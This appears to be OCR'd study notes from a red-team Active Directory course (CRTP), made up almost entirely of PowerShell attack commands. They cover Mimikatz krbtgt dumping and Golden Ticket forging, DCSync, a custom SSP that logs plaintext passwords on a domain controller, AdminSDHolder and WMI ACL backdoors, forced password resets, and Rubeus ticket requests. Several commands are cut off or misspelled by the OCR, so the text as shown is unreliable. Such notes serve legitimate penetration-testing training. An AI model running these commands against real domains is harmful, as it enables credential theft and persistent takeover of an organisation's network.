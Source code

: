 ```powershell
# on the dc run the command:
Invoke-Mimikatz -Command '" lsadump::lsa /patch"'
# after we take the krbtgt hash from the invoke mimikatz command we will create a Golden Ticket
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:sec.local /sid: /krbtgt: id:500 /group:512 /startoffset:0 /endi
CRTP 15
# To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:DomainName\krbtgt
Persistence - Custom SSP
Info
# We can set our on SSP by dropping a custom dll,
# for example mimilib.dll from mimikatz,
# that will monitor and capture plaintext passwords from users that logged on!
#Get current Security Package:
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty
#Append mimilib:
$packages += "mimilib"
#Change the new packages name
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages
#ALTERNATIVE:
Invoke-Mimikatz -Command '"misc::memssp"'
Info
Now all logons on the DC are logged to -> C:\Windows\System32\kiwissp.log
Persistence - ACLs
CRTP 16
# insert a domain user to ACL of domain admins
# Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA:
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountNmae <username> -Rights All -Verbos
# Using ActiveDirectory Module and Set-ADACL:
https://github.com/lipkau/PsADManagement/blob/master/Functions/Set-ADACL.ps1
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=sec,DC=local' -Principal student1 -Verbose
# Abusing ResetPassword using PowerView_dev:
Set-DomainUserPassword -Identity usertest -AccountPassword (ConvertTo-SecureString "password123" -AsPlainText -Force) -Verbose
# Using ActiveDirectory Module:
Set-ADAccountPassword -Identity usertest -NewPassword (ConvertTo-SecureString "password123" -AsPlainText -Force) -Verbose
Persistence - ACLs - Security Description - WMI
# pass the Set-RemoteWMI script to the domain controller
https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1
# ACLs can be modified to allow non-admin users access to securable objects.
# On local machine for user:
Set-RemoteWMI -UserName <username> -Verbose
# On remote machine wwithout explicit credentials:
Set-RemoteWMI -UserName <username> -ComputerName DC-1 -namespace 'root\cimv2' -Verbose
# Option 2 :
# Escelate your privilege to domain admin
C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnet
# Load the RACE.ps1 from the elevated shell
. C:\AD\Tools\RACE.ps1
# Modified the ACL for the user:
Set-RemoteWMI -SamAccountName student111 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
# From normal shell run the below command :
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
# To retrieve machine account hash without DA,
# first we need to modify permissions on the DC.
```